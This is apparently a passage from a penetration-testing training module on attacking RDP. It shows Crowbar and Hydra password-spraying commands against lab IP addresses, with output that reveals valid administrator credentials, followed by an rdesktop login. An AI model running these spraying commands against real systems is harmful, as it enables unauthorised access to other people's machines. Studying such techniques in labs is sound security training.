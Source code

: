 #### Crowbar - RDP Password Spraying

  Attacking RDP

```bash
0xCZR@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

We can also use `Hydra` to perform an RDP password spray attack.

#### Hydra - RDP Password Spraying

  Attacking RDP

```bash
0xCZR@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

We can RDP into the target system using the `rdesktop` client or `xfreerdp` client with valid credentials.

#### RDP Login

  Attacking RDP

```bash
0xCZR@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143

Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection atempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
```